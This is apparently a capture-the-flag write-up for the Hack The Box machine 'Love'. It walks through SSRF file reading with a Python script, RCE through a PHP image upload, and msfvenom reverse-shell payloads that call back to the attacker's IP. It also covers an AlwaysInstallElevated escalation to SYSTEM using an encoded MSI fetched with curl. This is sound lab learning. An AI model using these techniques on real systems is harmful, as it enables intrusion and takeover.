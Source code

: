 ## Info 
### Credential
User   | Password            | Service | Notes
-------|---------------------|---------|-------
admin  | @LoveIsInTheAir!!!! | voting  |
phoebe |                     |         |
roy    |                     |         | email: roy@love.htb
### Host
- hostname: staging.love.htb, love.htb, 
- OS: Windows 10 Pro 19042
- Computer Name: Love

### Http (80)
- `/`: voting system login
- `/admin`: voting admin login
- `staging.love.htb`: file scanner, can upload files

### Https (443)
- 403 from remote

### Http (5000)
- 403 from remote
- Credential of admin from 127.0.0.1
```
Vote Admin Creds admin: @LoveIsInTheAir!!!!
```



## Path
### User
1. By trying at `/admin/index.php`, I found it has an user `admin`, because error message is different from non-exist user.
2. Found `staging.love.htb` has  an file upload webpage, which we can use to read the file on the server.
```
# read-file.py
import requests as rq

url ='http://staging.love.htb/beta.php'

def read_file(f, end=None):
        res = rq.post(url, data={'file': f, 'read': 'Scan file'}).text
        start = res.find('value="Scan file')+30
        if end:
                end = start + end
                print(res[start:end])
        else:
                print(res[start:])
```
3. Use above script to view `http://127.0.0.1:5000` and get admin's credential `@LoveIsInTheAir!!!!`
```
>>> read_file('http://127.0.0.1:5000', 2000)
...
<strong>Vote Admin Creds admin: @LoveIsInTheAir!!!!
```
4. Login as admin and found that voters' images can upload file and trigger RCE.
5. Get user flag with RCE.
```
$ curl 'http://10.10.10.239/images/rev.php?cmd=type%20C:\Users\phoebe\Desktop\user.txt'
XXXXXXXXXXXXXXXXXXXXXX
```
6. Upload a windows exe reverse shell, then use php RCE to execute it, then get the sweety reverse shell and get user flag.
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=13337 -f exe > reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

# upload reverse.exe

# visit http://10.10.10.239/images/rev.php?cmd=.\reverse.exe 

$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.10.239 54473
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>
```

### Root
1. Run `winPEASx64.exe` shows that there is AlwaysInstallElevated vulnerability. So generate the payload using `msfvenom`, then install the `.msi` on the remote to get SYSTEM reverse shell. Install msi takes time, be patient.
```
# Remote
> .\winPEASx64.exe
...
[+] Checking AlwaysInstallElevated
[?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

# Local
$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=13337 --encoder x
64/xor --iterations 9 --format msi --out rev.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
$ python3 -m http.server

# Remote
> curl 10.10.16.3:8000/rev.msi --output rev.msi
> msiexec /i rev.msi

# Local
$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.10.239 54556
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.


C:\WINDOWS\system32>whoami
nt authority\system
```
2. Get root flag!
 

